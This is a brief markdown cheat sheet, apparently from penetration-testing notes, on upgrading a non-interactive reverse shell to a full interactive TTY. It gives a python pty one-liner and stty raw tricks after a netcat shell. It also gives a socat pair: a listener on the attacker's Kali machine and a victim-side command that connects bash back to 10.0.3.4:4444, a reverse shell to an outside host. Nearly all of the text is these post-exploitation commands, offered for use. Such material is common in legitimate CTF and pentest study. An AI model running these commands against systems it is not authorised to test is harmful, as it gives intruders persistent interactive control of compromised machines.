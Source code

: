 # upgrading non-interactive shell

**Method 1: python pty module**

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
# or you can use python3 
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

* * * 

**Method 2: Using socat**

On Kali 

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

On Victim

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

**Method 3: Upgrading from netcat with magic**

1. follow the same technique as in Method 1 and use Python to spawn a PTY. Once bash is running in the PTY, background the shell with `Ctrl-Z`

2. ```
# In Kali
$ stty raw -echo
$ fg
```

3. ```
# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=output from echo $TERM
$ stty rows <num> columns <cols>
```